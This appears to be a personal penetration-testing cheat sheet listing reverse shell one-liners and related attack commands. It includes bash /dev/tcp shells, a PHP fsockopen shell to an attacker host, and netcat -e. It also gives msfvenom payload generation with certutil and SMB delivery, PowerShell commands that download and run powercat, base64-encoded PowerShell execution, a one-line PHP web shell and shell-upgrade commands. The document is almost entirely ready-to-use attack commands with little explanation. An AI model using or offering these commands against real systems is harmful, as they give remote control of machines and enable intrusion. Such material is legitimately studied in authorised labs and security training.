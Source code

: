 ```yaml
---
sticker: emoji//1f41a
---
```

### Reverse Shells
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python
##### Bash
```
bash -c "bash -i >& /dev/tcp/192.168.45.201/80 0>&1"

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

/bin/bash -l > /dev/tcp/192.168.45.161/1443 0<&1 2>&1
```

##### PHP

```
php -r '\$sock=fsockopen(\"attacker-host\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'
```

### Windows
#####  CMD
```
#Generate reverse shell.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o myshell.exe

#Transfer reverse shell to your users home directory.
certutil -urlcache -split -f http://192.168.45.178:80/myshell.exe C:\\users\\<user>\\myshell.exe"

#Execute
C:\\users\\<user>\\myshell.exe
```

##### SMB Share
```
#Generate reverse shell.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o myshell.exe

#Setup smb server.
impacket-smbserver -smb2support kali $PWD

#Transfer and execute shell.
//<kali-ip>/kali/myshell.exe
```

##### Netcat

```
nc.exe <listening_host> <listening_port> -e cmd
```

##### Powershell

```
#Using powercat.
Method 1. IEX (New-Object System.Net.Webclient).DownloadString("http://<ip>/powercat.ps1");powercat -c <host_ip> -p <port> -e powershell
Method 2. powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/powercat.ps1'); powercat -c <ip> -p <port> -e powershell"
```
##### Base64 Encode

```
#PowerShell Script
$Text = "YOUR_PAYLOAD_HERE"

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText

#PowerShell Command
powershell -enc "<base64>"
powershell -a "-enc <base64>"
```

### Web Shells
##### ASP / ASPX

```
https://github.com/tennc/webshell/tree/master/fuzzdb-webshell/asp
```
### PHP

```
<?php system($_GET['cmd']); ?>
```

#### Upgrades
#### Linux
```
#interactive upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'

#interactive upgrade
python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'

#enables clear
export TERM=xterm
```

#### Windows
```
#If you are finding basic commands can't be recognised.
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;

```